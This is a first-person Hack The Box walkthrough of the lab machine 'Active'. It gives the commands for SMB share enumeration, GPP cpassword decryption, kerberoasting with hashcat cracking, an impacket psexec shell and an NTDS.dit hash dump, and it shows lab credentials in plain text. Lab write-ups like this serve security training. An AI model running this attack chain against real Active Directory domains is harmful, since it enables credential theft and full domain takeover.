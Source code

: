 ```yaml
---
title: "[EASY] HTB-Active"
draft: false
tags:
  - htb
  - windows
  - active-directory
  - gpp
  - kerberoasting
  - psexec
---
```

## Information Gathering
### Rustscan
Based on the ports open, it is obvious this machine is Active Directory machine:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/active]
└─$ sudo rustscan --addresses 10.10.10.100 --range 1-65535
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy :
: https://github.com/RustScan/RustScan :
--------------------------------------
😵 https://admin.tryhackme.com
[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
<snip>
Host is up, received echo-reply ttl 127 (0.35s latency).
Scanned at 2024-03-18 10:07:11 EDT for 6s

PORT STATE SERVICE REASON
88/tcp open kerberos-sec syn-ack ttl 127
135/tcp open msrpc syn-ack ttl 127
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127
593/tcp open http-rpc-epmap syn-ack ttl 127
636/tcp open ldapssl syn-ack ttl 127
9389/tcp open adws syn-ack ttl 127
47001/tcp open winrm syn-ack ttl 127
49152/tcp open unknown syn-ack ttl 127
49154/tcp open unknown syn-ack ttl 127
49155/tcp open unknown syn-ack ttl 127
49157/tcp open unknown syn-ack ttl 127
49158/tcp open unknown syn-ack ttl 127
49169/tcp open unknown syn-ack ttl 127
49182/tcp open unknown syn-ack ttl 127
  
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.87 seconds
Raw packets sent: 32 (1.384KB) | Rcvd: 16 (688B)
```
  

## Enumeration

### RPC - TCP 135
I was able to signin to RPC as null user but all the access was denied -> Dead End. 

`rpcclient -U "" -N 10.10.10.100`

![](https://i.imgur.com/0atiqxW.png)


### LDAP - TCP 389/3268
I first queried for base naming contexts: **DC=active,DC=htb**

`ldapsearch -H ldap://10.10.10.100 -x -s base namingcontexts`

![](https://i.imgur.com/XLFxpvF.png)

I tried on null sessions but it required authentication -> Dead End.

`ldapsearch -H ldap://10.10.10.100 -x -b "DC=active,DC=htb"`

![](https://i.imgur.com/tsXGXCt.png)


### SMB - TCP 445

Running crackmapexec with SMB, I can confirm the domain name: **active.htb**:


`crackmapexec smb 10.10.10.100`

![](https://i.imgur.com/GnnGjk9.png)


Using **smbclient**, I was able to list out shares without any creds.
  
Among all the shares, share **Replication** and **Users** seemed interesting to me:

`smbclient -N -L //10.10.10.100`

![](https://i.imgur.com/81iDAHc.png)


  
I tried accessing **Users** share, but access was denied: 

`smbclient -N //10.10.10.100/Users`

![](https://i.imgur.com/YXKc4Su.png)

## Replication Share - SMB
Luckily, **Replication** share was accessible: 

`smbclient -N //10.10.10.100/Replication`

![](https://i.imgur.com/ANbV2SB.png)


Recursively downloaded entire acitve.htb directory:

```bash
smb: \> mask ""
smb: \> lcd .
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
```

Now enumerating the share on my local kali machine, I discovered **Groups.xml** file which seemed to have exposed username and encrypted password for it:
  
**Username**: SVC_TGS
**cpassword**: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


`grep -ir 'password' active.htb`

![](https://i.imgur.com/qKfj3Cz.png)


## GPP Password Cracking

Googling a bit about what cpassword, I learned that it is usually used on Active Directory environment and it has weak encryption:

>A cpassword is used for setting passwords from the Group Policy Preferences. Cpasswords are encrypted using a weak encryption algorithm, which can be easily decrypted and used for lateral movement.

SImply running **gpp-decrypt** with the found cpassword, I was able to decrypt the hash:
  
**SVC_TGS**:**GPPstillStandingStrong2k18**

`gpp-decrypt hash`

![](https://i.imgur.com/vIROBEc.png)
### Checking Access

Checking what access this user got with crackmapexec, it seemed that I'd be able to access more shares with this user credentials:

`crackmapexec smb 10.10.10.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18'`

![](https://i.imgur.com/KwavNlT.png)

Signing into **Users** share, I have access to user.txt

`smbclient //10.10.10.100/Users -U SVC_TGS%GPPstillStandingStrong2k18`

![](https://i.imgur.com/xH4JGZh.png)

I wanted better shell so I tried psexec but it wouldn't work in this case since SVC_TGS is not administrator user.
  
## Kerberoasting
Now with the credentials for user **SVC_TGS**, I tried kerberoasting, which gave me hash for user **Administrator**

`GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip dc.active.htb -request`

![](https://i.imgur.com/4waHocL.png)


### Hash cracking

I moved the found hash to **hashcat** and cracked it: **Ticketmaster1968**

`hashcat -m 13100 hash rockyou.txt`

![](https://i.imgur.com/czlVuiI.png)


### SMB as Administrator
  
Using the creds found above, I can now access Administrator directories through smb:

`smbclient //10.10.10.100/Users -U Administrator%Ticketmaster1968`

![](https://i.imgur.com/S7CHG7D.png)
 
  
## psexec shell as Administrator
Since I always pursue shell connection, I can **psexec** as Administrator as well:

`impacket-psexec active.htb/Administrator:'Ticketmaster1968'@10.10.10.100`

![](https://i.imgur.com/9Kw8Mwb.png)

## Beyond root
### Dumping NTDS.dit

I can also dump **NTDS.dit** using secretsdump.py:

`secretsdump.py active.htb/Administrator:'Ticketmaster1968'@10.10.10.100 -just-dc-ntlm`

![](https://i.imgur.com/GomR127.png)


  
  

